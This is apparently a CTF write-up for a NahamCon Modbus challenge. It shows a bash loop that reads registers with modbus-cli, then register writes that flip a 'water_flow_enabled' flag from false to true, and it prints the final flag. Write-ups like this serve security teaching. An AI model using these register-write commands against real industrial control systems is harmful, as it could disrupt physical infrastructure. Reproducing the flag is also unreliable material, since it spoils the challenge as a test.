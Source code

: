 # Where's My Water?
> Swampy's water has stopped working again just before his shower.
> Can you help him get the water running again?
> The other alligators said something about busmod... Whatever that is.

## About the Challenge
We got 2 servers, first we can access it using browser and here is the preview

![preview](images/preview.png)

And the other server, we need to access it using [modbus-cli](https://github.com/favalex/modbus-cli)

## How to Solve?
First, we need read the register, i have a created a bash script like this

```
#!/bin/bash
for i in {1..90}
do
  modbus challenge.nahamcon.com:31112 $i
done
```

Run the script and we got something like this

![read](images/read.png)

Take the decimal number and then convert it to a character and you will get this result

![cyberchef](images/cyberchef.png)

Change the `water_flow_enabled` value from `false` to `true` using modbus-cli (Rewrite the register). Here is the command that I used to solve rewrite the register

```shell
modbus challenge.nahamcon.com:32299 19=116 # f -> t
modbus challenge.nahamcon.com:32299 20=114 # a -> r
modbus challenge.nahamcon.com:32299 21=117 # l -> u
modbus challenge.nahamcon.com:32299 22=101 # s -> e
```

![write](images/write.png)

And then access the first server to obtain the flag

![flag](images/flag.png)

```
flag{fe01fd254c40488ff3f164e2343cd0044c6d87d3}
```